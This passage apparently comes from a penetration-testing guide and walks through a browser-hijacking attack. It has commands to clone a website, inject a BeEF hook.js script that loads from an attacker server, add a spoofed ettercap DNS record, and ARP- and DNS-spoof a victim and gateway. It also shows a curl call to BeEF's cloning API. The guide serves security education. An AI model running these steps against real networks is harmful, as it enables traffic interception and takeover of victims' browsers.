 G>
G> Here you will need to either `wget` any files your missing if you are missing some, or if there are only a small number, just grab them out of your browser developer tools.
G>
G> Add the BeEF hook (`<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>`) into the index.html in `/var/www/` usually at the end of the body, just before the `</body>` tag.
G>
G> From the directory that you have BeEF installed, run the BeEF ruby script: `./beef`
G>
G> Add an 'A' record of the website you ave just cloned and want to spoof into ettercaps dns file: `echo "<domainname-you-want-to-clone.com> A <IP address that is hosting the clone>" >> /etc/ettercap/etter.dns`
G>
G> Now run ettercap which is going to both ARP and DNS spoof your victim and the victims gateway with the MITM option, using dns_spoof plugin: `ettercap -M arp:remote -P dns_spoof -q -T /<gateway IP address>/ /<victim IP address>/`.
G>
G> You can now log into the BeEF web UI.
G>
G> Now when the victim visits your cloned web site, the URL will look legitimate and they will have no idea that their browser is a BeEF zombie continually asking it is master (the BeEF communications server) what to execute next.

T> ## BeEF Can Also Clone
T>
T> BeEF can also be used to clone web sites using its REST API, but it takes more work. The below on using BeEF to do this is only if you really have to.
T>
T> In order to clone, once you have BeEF running:  
T> `curl -H "Content-Type: application/json: charset=UTF-8" -d '{"url":"http://<domainname-you-want-to-clone.com>", "mount":"/"}' -X POST http://127.0.0.1/api/seng/clone_page?token=<token that BeEF provides when you start it up each time>;`  
T> The loop-back IP address is just the address that the BeEF REST API is listening on.  
T> When you run this command, you should get back:  
T> `{"success":true,"mount":"/"}`,  
T> BeEF should also say that it is cloning page at URL:  
T> `http://<domainname-you-want-to-clone.com>` with other information.  
T>
T> As with SET, if any resources other than a single index.html are required,
then they also have to be acquired separately. With BeEF, they need to be copied into:  
T> `/usr/share/beef-xss/extensions/social_engineering/web_cloner/cloned_pages/`.  
T> Routes have to be created in:  
T> `/usr/share/beef-xss/extensions/social_engineering/web_cloner/interceptor.rb`  
T> and also modified to add new [config "hook"](http://sourceforge.net/p/piwat/WAT-Pentoo/ci/6402fce4c6966639927acb72c516edd203c41b77/tree/bin/beef/extensions/social_engineering/web_cloner/web_cloner.rb#l17),  
T> also added to `/usr/share/beef-xss/config.yaml`.  
T> Within the same config.yaml file `host` seems to serve two purposes. The address to access beef and where to fetch hook.js from. If I use an external address, beef only listens on the external interface (can not reach via loopback). So I added a `hook` config which is the address that the beef communications server is listening on that gets inserted into the cloned web page.
